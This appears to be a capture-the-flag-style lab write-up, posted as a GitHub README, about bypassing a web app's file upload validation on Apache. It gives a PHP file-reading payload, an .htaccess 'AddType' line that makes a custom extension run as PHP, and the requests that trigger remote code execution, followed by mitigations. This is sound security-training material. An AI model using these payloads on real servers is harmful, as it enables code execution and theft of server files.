 ````markdown
# 🛡️ File Upload Exploitation – Apache .htaccess Bypass

This project documents a successful file upload exploitation against a simulated vulnerable web application.  
The lab demonstrates how weak file upload validation can be bypassed to achieve **remote code execution (RCE)** using an `.htaccess` trick on an Apache server.

---

## 📑 Table of Contents
1. [Lab Overview](#lab-overview)  
2. [Exploitation Walkthrough](#exploitation-walkthrough)  
   - [Normal File Upload](#normal-file-upload)  
   - [Crafting Malicious Payload](#crafting-malicious-payload)  
   - [Identifying Server](#identifying-server)  
   - [Uploading .htaccess](#uploading-htaccess)  
   - [Uploading Exploit with New Extension](#uploading-exploit-with-new-extension)  
   - [Triggering RCE](#triggering-rce)  
3. [Security Impact](#security-impact)  
4. [Recommended Mitigations](#recommended-mitigations)  
5. [Proof of Exploit](#proof-of-exploit)  
6. [Secret Obtained](#secret-obtained)  
7. [Takeaways](#takeaways)  

---

## Lab Overview
- **Target:** Web application with avatar upload functionality  
- **Vulnerability:** File upload restrictions + Apache `.htaccess` misconfiguration  
- **Impact:** Remote Code Execution → Secret file disclosure  

---

## Exploitation Walkthrough

### Normal File Upload
- Logged in and uploaded an image as the avatar.  
- Observed the image was fetched with:

```http
GET /files/avatars/<YOUR-IMAGE>
````

### Crafting Malicious Payload

Created a PHP file `exploit.php` to read Carlos’s secret:

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

* Attempt to upload failed → `.php` extension not allowed.

### Identifying Server

The response from `POST /my-account/avatar` revealed:

```http
Server: Apache/2.4.41 (Ubuntu)
```

* Apache + mod\_php hinted at an `.htaccess` bypass.

### Uploading .htaccess

Modified the upload request in Burp Repeater:

```text
- Changed filename → .htaccess
- Content-Type → text/plain
- File contents:
AddType application/x-httpd-php .l33t
```

* Uploaded successfully ✅

### Uploading Exploit with New Extension

Reused the upload request:

```text
- Changed filename → exploit.l33t
- File contents → PHP payload
```

* Uploaded successfully ✅

### Triggering RCE

Requested:

```http
GET /files/avatars/exploit.l33t
```

* Server executed PHP → Secret was disclosed:

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## Security Impact

* **Severity:** 🔴 High
* **Risk:** Arbitrary PHP execution on the server
* **Impact:** Unauthorized file disclosure, possible full system compromise

---

## Recommended Mitigations

* Disable `.htaccess` overrides:

```apache
AllowOverride None
```

* Store uploads outside web root
* Strict MIME-type & extension validation (both client + server)
* Sanitize uploaded content before saving

---

## Proof of Exploit

<img width="957" height="1079" alt="Proof of exploit in Burp Repeater" src="https://github.com/user-attachments/assets/f15c03db-3747-4761-9709-d0349b92cd41" />

---

## Secret Obtained

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## Takeaways

This lab highlights how **misconfigured servers + weak upload validation** can escalate into RCE.
Preventing such attacks requires **defense-in-depth**: secure configs, strict validation, and isolating user uploads.

```

---
